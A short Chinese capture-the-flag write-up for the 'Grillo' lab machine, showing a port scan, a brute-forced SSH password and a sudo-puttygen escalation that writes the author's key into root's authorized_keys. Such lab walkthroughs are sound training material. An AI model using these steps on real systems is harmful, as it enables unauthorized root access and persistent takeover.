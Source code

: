 # Grillo

2025.03.08 https://thehackerslabs.com/grillo/

[video](https://www.bilibili.com/video/BV1B59XYQEGE/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

80 底部显示: Cambia la contraseña de ssh por favor melanie -> 请更改 ssh 密码 melanie

melanie 可能是弱密码，进行爆破：

```
[22][ssh] host: 192.168.5.40   login: melanie   password: trustno1
```

拿到 user flag：

```
melanie@grillo:~$ cat user.txt
9fe2028a405f33a6dae75e4c60c78f82
```

sudo -l 显示 (root) NOPASSWD: /usr/bin/puttygen 可以将自己的公钥导入到 /root/.ssh/authorized_keys 文件中：

```
cd ~
ssh-keygen
sudo /usr/bin/puttygen id_rsa.pub -O public-openssh -o /root/.ssh/authorized_keys
```

登陆 root，拿到 flag：

```
root@grillo:~# cat root.txt
914ea930fea11076f641cc3970187d29
```
